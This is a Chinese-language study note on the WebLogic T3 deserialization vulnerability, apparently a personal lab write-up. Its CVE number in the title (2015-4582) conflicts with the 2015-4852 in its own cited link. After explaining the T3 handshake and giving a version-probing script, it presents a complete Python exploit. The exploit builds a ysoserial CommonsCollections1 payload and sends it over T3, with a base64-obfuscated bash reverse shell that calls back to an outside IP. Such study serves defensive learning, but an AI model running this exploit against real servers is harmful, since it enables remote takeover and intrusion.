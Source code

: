 # CVE-2015-4582

## 影响

1. 10.3.6.0
2. 12.1.2.0
3. 12.1.3.0
4. 12.2.1.0

## 漏洞分析

看了一些文章其实漏洞原理其实挺简单的....总结来说就是：weblogci通过T3协议进行传递序列化数据没有经过任何过滤并且weblogic恰好存在恶意利用链的jar包，相当于提供了一个`source`。

那什么是T3协议？

## T3协议（碰到的问题）

问题1：为什么wireshark抓包无法抓到数据包？(其实也就是基础问题)
开始的时候一直没有抓到包....搜了很多文章看
包括一些wireshark为什么抓不到baidu的包？不是没抓到是因为https加密了：[为什么你抓不到baidu的数据](https://mp.weixin.qq.com/s?__biz=MzUzNTY5MzU2MA==&mid=2247497288&idx=1&sn=1d634021528643c2f71e7cbf4dd7a0f7&chksm=fa8327dfcdf4aec9f798046e38ed5918d2df937c1ba7b7729c08e31b4c5c23cd13023c1c08f6&mpshare=1&scene=23&srcid=0110jBzdFMNuglOyMZh5teWu&sharer_sharetime=1673322185390&sharer_shareid=33fdea7abe6be586e131951d667ccd06#rd)
后来去上了个厕所回来，突然想到会不会是网卡的问题(我这又不是通过WIFI访问的docker环境!!!!).....豁然开朗，于是秒速更换VMware Network Adapter VMnet8的网卡.

问题2：什么是T3协议？
分为两部分：非java序列化数据（请求头部分）
这部分能干嘛？（个人觉得可以进行版本探测：[前人经验：使用`t3 9.2.0\nAS:255\nHL:19\n\n`字符串作为T3的协议头发送给weblogic9、weblogic10g、weblogic11g、weblogic12c均合法](https://y4er.com/posts/weblogic-cve-2015-4852/#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90)）

因为再建立tcp链接的时候会进行响应有对应版本的回显：

```python
import socket

def T3Test(ip,port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 9.2.0\nAS:255\nHL:19\n\n" #请求包的头
    sock.sendall(handshake.encode())
    while True:
        data = sock.recv(1024)
        print(data.decode())

if __name__ == "__main__":
    ip = "192.168.88.128"
    port = 7001

    T3Test(ip,port)
```

后一部分就是序列化的数据。
[这篇文章讲述的更加详细对于T3协议（从代码层面）](https://zhuanlan.zhihu.com/p/512057410)【这里相当于跟了一遍流程】

`t3 9.2.0\nAS:255\nHL:19\n\n`

AS：如果长度大于256（反序列化对象大小）则不会进行反序列化（同时这也是payload中desflag设置得原因，还有需要typecode为0....其实文章说的很清楚）
让我好奇得是前人是怎么构造出这种16进制数据呢？可能就像y4er师傅那样找一个样本，然后修改相应部分就行了.（就没有动手啦~嘿嘿）

## payload

```python
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "C:\\Users\\18282\\Desktop\\Tools\\ysoserial-0.0.6-SNAPSHOT-all.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    print(header)
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    print(t3header)
    desflag = binascii.a2b_hex(b"fe010000")
    print(desflag)
    payload = header+t3header + desflag + payload #整合payload
    print(payload)
    payload = struct.pack(">I", len(payload)) + payload[4:]
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.88.128"
    port = 7001
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDguMjIzLjkxLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)



# import socket
#
# def T3Test(ip,port):
#     sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#     sock.connect((ip, port))
#     handshake = "t3 9.2.0\nAS:255\nHL:19\n\n" #请求包的头
#     sock.sendall(handshake.encode())
#     while True:
#         data = sock.recv(1024)
#         print(data.decode())
#
# if __name__ == "__main__":
#     ip = "192.168.88.128"
#     port = 7001
#
#     T3Test(ip,port)

```

## 修复
https://tttang.com/archive/1768/#toc__6 （黑名单的形式）
